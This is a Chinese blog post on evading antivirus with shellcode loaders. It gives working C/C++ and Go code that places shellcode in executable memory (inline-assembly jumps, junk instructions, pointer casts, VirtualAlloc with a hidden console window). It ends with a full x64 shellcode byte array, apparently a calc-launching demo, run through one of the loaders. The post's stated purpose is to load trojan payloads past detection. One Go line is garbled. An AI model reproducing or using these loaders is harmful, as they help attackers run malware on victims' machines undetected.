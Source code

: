 ```yaml
---
layout: mypost
title: "免杀的艺术-加载器"
categories: [木马免杀]
---
```


## 定义

啥是个加载器呢，就是现在有一段写好的shellcode，但是它不能被执行，必须有一个东西把它加载到内存中去执行，而不同的语言都会有着不一样的加载器，但其实本质都是一样的，都是一套东西，不管是Nim还是Python本质上还是去调用一些系统的API函数

## C/C++加载

### 嵌入汇编

这个就是个jmp eax，没个啥难理解的

```
#pragma comment(linker, "/section:.data,RWE")
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = "你的shellcode";
void main()
{
	__asm
	{

		mov eax, offset shellcode
		jmp eax
	}
}
```

### 汇编花指令

嵌入汇编和花指令都差不多，只不过可能花指令可以做一点混淆吧，但本质上都是一样的，都是jmp eax，但都只能适用于x86的木马的生成

```
#pragma comment(linker, "/section:.data,RWE")
#include <windows.h>
#include <stdio.h>

unsigned char xff[] = "你的shellcode";
void main()
{
	__asm
	{		
		mov eax, offset xff;
		_emit 0xFF;
		_emit 0xE0;
	}
}
```

### 指针执行

```
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>
#include <stdio.h>

unsigned char buf[] =
"你的shellcode";

int main()
{
	
	((void(*)(void)) & buf)();
}
```

### 强制类型转换

```
#include <windows.h>
#include <stdio.h>

unsigned char buff[] = "你的shellcode";

void main()
{
	((void(WINAPI*)(void)) & buff)();
}
```

上述四种方法都需要将data节的内存设置成可读可写可执行, 以下这段代码的主要作用是在内存中分配一段可执行的内存空间

### 申请动态内存

```
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
//windows控制台程序不出黑窗口

int main()
{
    char shellcode[] = "你的shellcode";
    
    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    
    ((void(*)())exec)();
}
```

## Golang加载

```go
package main

import (
  "syscall"
  "unsafe"
)

const (
  MEM_COMMIT             = 0x1000
  MEM_RESERVE            = 0x2000
  PAGE_EXECUTE_READWRITE = 0x40 // 区域可以执行代码，应用程序可以读写该区域。
)

var (
  kernel32      = syscall.MustLoadDLL("kernel32.dll")
  ntdll         = syscall.MustLoadDLL("ntdll.dll")
  VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
  RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)

func main() {
  xor_shellcode := []byte{} C#  0xfc，

  addr, _, err := VirtualAlloc.Call(0, uintptr(len(xor_shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&xor_shellcode[0])), uintptr(len(xor_shellcode)))
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  syscall.Syscall(addr, 0, 0, 0, 0)
}
```

以上说的这些大家都可以去实战一下，模拟这一块的话，我用的就是一个弹出calc的一个bin去做实验，看是否能成功的，然后接下来去看一下怎么去生成一个自己的shellcode，具体的原理可以看我的下一篇文章，这里就简单用下框架，让大家看个效果即可

## shellcode生成

先看一下这个项目的一个大概，这是个可以生成64位马的项目，其实还是蛮稀缺的，想要的dd我

![](image-1-1024x477.png)

然后F7F5一下，看效果，直接弹计算器哈

![](image-2-1024x675.png)

然后翻release文件夹，看生成的.bin文件

![](image-3.png)

这里不想麻烦的话，直接用个脚本转成.c结尾的文件然后cv

![](image-4.png)

然后将该字节码复制到咱们上面的各种Loader的对应位置去一一尝试即可，比如演示一个用指针加载的

```
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
/* length: 276992 bytes */
unsigned char buf[] = {
0xe9,0x0b,0x01,0x00,0x00,0xcc,0xcc,0xcc,0x48,0x8b,0xc4,0x48,0x89,0x58,0x08,0x48,
0x89,0x68,0x10,0x48,0x89,0x70,0x18,0x48,0x89,0x78,0x20,0x41,0x56,0x41,0x57,0x65,
0x48,0x8b,0x04,0x25,0x60,0x00,0x00,0x00,0x44,0x8b,0xf9,0x48,0x8b,0x50,0x18,0x4c,
0x8b,0x72,0x20,0x4d,0x8b,0xc6,0x4d,0x8b,0x48,0x20,0x4d,0x8b,0x00,0x4d,0x85,0xc9,
0x0f,0x84,0x89,0x00,0x00,0x00,0x49,0x63,0x41,0x3c,0x42,0x8b,0x8c,0x08,0x88,0x00,
0x00,0x00,0x85,0xc9,0x74,0x79,0x4d,0x8d,0x14,0x09,0x41,0x8b,0x52,0x0c,0x49,0x03,
0xd1,0x33,0xff,0xeb,0x16,0xc1,0xcf,0x0d,0x41,0x0f,0xbe,0xcb,0x41,0x80,0xfb,0x61,
0x8d,0x41,0xe0,0x0f,0x4c,0xc1,0x03,0xf8,0x48,0xff,0xc2,0x44,0x8a,0x1a,0x45,0x84,
0xdb,0x75,0xe2,0x41,0x8b,0x52,0x20,0x45,0x33,0xdb,0x49,0x03,0xd1,0x45,0x39,0x5a,
0x18,0x76,0x3c,0x8b,0x1a,0x49,0x03,0xd9,0x33,0xf6,0xeb,0x16,0xc1,0xce,0x0d,0x40,
0x0f,0xbe,0xcd,0x40,0x80,0xfd,0x61,0x8d,0x41,0xe0,0x0f,0x4c,0xc1,0x03,0xf0,0x48,
0xff,0xc3,0x40,0x8a,0x2b,0x40,0x84,0xed,0x75,0xe2,0x8d,0x04,0x3e,0x44,0x3b,0xf8,
0x74,0x31,0x41,0xff,0xc3,0x48,0x83,0xc2,0x04,0x45,0x3b,0x5a,0x18,0x72,0xc4,0x4d,
0x3b,0xc6,0x0f,0x85,0x5e,0xff,0xff,0xff,0x33,0xc0,0x48,0x8b,0x5c,0x24,0x18,0x48,
0x8b,0x6c,0x24,0x20,0x48,0x8b,0x74,0x24,0x28,0x48,0x8b,0x7c,0x24,0x30,0x41,0x5f,
0x41,0x5e,0xc3,0x41,0x8b,0x4a,0x24,0x49,0x03,0xc9,0x46,0x0f,0xb7,0x04,0x59,0x41,
0x8b,0x4a,0x1c,0x49,0x03,0xc9,0x42,0x8b,0x04,0x81,0x49,0x03,0xc1,0xeb,0xcb,0xcc,
0x40,0x55,0x48,0x8b,0xec,0x48,0x83,0xec,0x40,0xb9,0x8d,0x10,0xb7,0xf8,0xc7,0x45,
0xf0,0x6b,0x65,0x72,0x6e,0xc7,0x45,0xf4,0x65,0x6c,0x33,0x32,0xc7,0x45,0xf8,0x2e,
0x64,0x6c,0x6c,0xc6,0x45,0xfc,0x00,0xc7,0x45,0xe0,0x63,0x61,0x6c,0x63,0xc7,0x45,
0xe4,0x2e,0x65,0x78,0x65,0xc6,0x45,0xe8,0x00,0xe8,0xba,0xfe,0xff,0xff,0x48,0x8d,
0x4d,0xf0,0xff,0xd0,0xb9,0x7f,0xc0,0xb4,0x7b,0xe8,0xaa,0xfe,0xff,0xff,0xba,0x05,
0x00,0x00,0x00,0x48,0x8d,0x4d,0xe0,0xff,0xd0,0x48,0x83,0xc4,0x40,0x5d,0xc3,0xcc
};
int main()
{
    ((void(*)(void)) & buf)();
    return 0;
}
```

![](image-5-1024x623.png)

嗯嗯就这样吧，睡喽！